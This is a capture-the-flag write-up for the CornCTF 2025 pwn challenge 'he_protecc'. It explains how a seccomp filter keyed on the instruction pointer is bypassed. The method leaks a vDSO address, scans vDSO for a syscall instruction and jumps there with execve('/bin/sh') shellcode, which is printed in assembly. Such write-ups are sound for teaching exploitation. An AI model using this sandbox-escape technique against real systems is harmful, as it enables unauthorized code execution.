 Solved by: Ub1k
writeup by: Ub1k
# Introduction

This is the first pwn challange in the CornCTF 2025.
Upon inspecting the binary we immediatly notice two things:

1) **The security mitigations are very relaxed**: the GOT is writable (Partial RELRO) and the code area is not position independent (No PIE) and as such is not randomized.
2) **The ELF is statically linked**: so we can exclude ret2libc and we have to ignore shenanigans with dynamic libraries this time.

![](./images/he_protecc-018.webp)

By executing the binary we are prompted to input the length of some shellcode followed by the code itself.

![](./images/he_protecc-02.webp)

It would definitely be too easy if we could execute a `execve("/bin/sh",null,null)`. 
Let's take a closer look at the binary to see what's really happening.
# Looking around
Disassembling the binary reveals an easy to read and understand code, let's look at the most important stuff.

![](./images/he_protecc-013.png)
## mmap my beloved

> [!note]
> **mmap**() creates a new mapping in the virtual address space of the calling process. In other words, it creates a new data area in a position and with permissions decided by the caller, it is used in dynamically loaded binaries and in some cases in heap allocation. 

The mmap call is easy to understand:
- New memory area is **mapped** at position `0x500000`.
- The **size** is `0x1000` bytes (one page or 4096 bytes).
- The p**ermission** parameter is `RWX`: `001 | 010 | 100 = 111 (7)` 

To understand the flags we can use `strace` and read the command from there:

![](./images/he_protecc-012.png)

These two flags simply signal that the mapped region is private to our process and not mapped to any file, this means the area is initialized with zeroes.

A boring mmap region, nothing special here... sadly
## seccomp

I'm not going to show the full `setup_seccomp()` disassembly as it is a bit ugly, the important part comes at the end:

![](./images/he_protecc-014.webp)

The `prctl` call sets the NO_NEW_PRIVS flag, why?  It is a security measure to stop privilege escalation put before a seccomp filter ([explanation](https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter)).
The syscall sets a seccomp filter (317 = sys_seccomp) on the binary.

> [!info]
> As the name suggests, seccomp is a mechanism to harden syscall access by evaluating a small program called a Berkeley Packet Filter (BPF) for every syscall. Based on the result, the syscall is either allowed or denied.

So the questions becomes: What does the seccomp filter filter?
I was today years old when I learned that I don't need to manually decode seccomp filters... there exists a tool for that, thanks Marco. ([Github](https://github.com/david942j/seccomp-tools)): 

So by executing `seccomp-tools dump ./protected` we get:

```
 line  CODE  JT   JF     K
=================================
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 (0x3fffff)
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 (0x4b7fff)
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 (0x4fffff)
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 (0x500fff)
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767 (0x7fff)
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW```
```

This is *not* a typical seccomp filter. Normally a seccomp filter checks the syscall number against a whitelist and returns if it is permitted or not, but here the filter loads the `RIP` at the moment of execution of the syscall and only returns ALLOW if the position is one of the following, else the process gets killed:

- Before `0x3FFFFF`: but thats not possible because the address space starts at `0x400000` 
- Between `0x4b7fff` and `0x4fffff`: but there are no syscalls in that region.
- Between `0x500fff` and `0x7fffffffffff`:  No syscalls in the mmap region :( BUT WAIT

So what can we find after `0x500fff` but before `0x7fffffffffff`?

![](./images/he_protecc-015.webp)

Looking at the mappings with `vmmap` we can see that only one mapping has read and execution permission, and that is `vdso`.

> [!info]
> **vDSO** (virtual dynamic shared object) is a kernel mechanism for exporting a carefully selected set of kernel space routines to user space applications so that applications can call these kernel space routines in-process, without incurring the performance penalty of a mode switch from user mode to kernel mode. ([Wikipedia](https://en.wikipedia.org/wiki/VDSO))

By piping the instructions found in that memory area into `grep` we can see a few syscall instruction inside `vdso`, jumping to them should give us the syscall we need!

![](./images/he_protecc-016.webp)
# Leak & Pwn

Here comes the problem, even if the ELF is not PIE, the stack and also `vdso` still get randomized by **ASLR**, even worse, the internal offsets also get randomized... But let's tackle the problem one after another:

## The Leak

Using `p2p stack vdso` we can see 4 leaks on the stack for **vdso**.

![](./images/he_protecc-017.webp)

## The Pwn

Now comes the difficult part, we can't calculate the offset between the syscalls and our leak because we cannot guarantee that the internal offsets are constant, we need to scan the memory area...

The first part is easy, let's take the leak and put it into a register:

```asm
mov r8, [rbp - 0x218]
```

Now let's scan the memory area:

```
loop:
inc r8
mov ax, word ptr [r8]
cmp ax, 0x050f
jne loop
```

This code snipped increases r8 (pointer to vdso leak) and take two bytes, it then check if bytes are equal to the one representing a syscall and if not it loops. If it exits the loop, r8 will point to a valid syscall instruction, and we can continue with setting the registers for a execve call.

```
mov r9, {u64(b"/bin/sh\0")}
push r9

mov rax, 59 
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx

jmp r8
```

and boom, we have a shell.


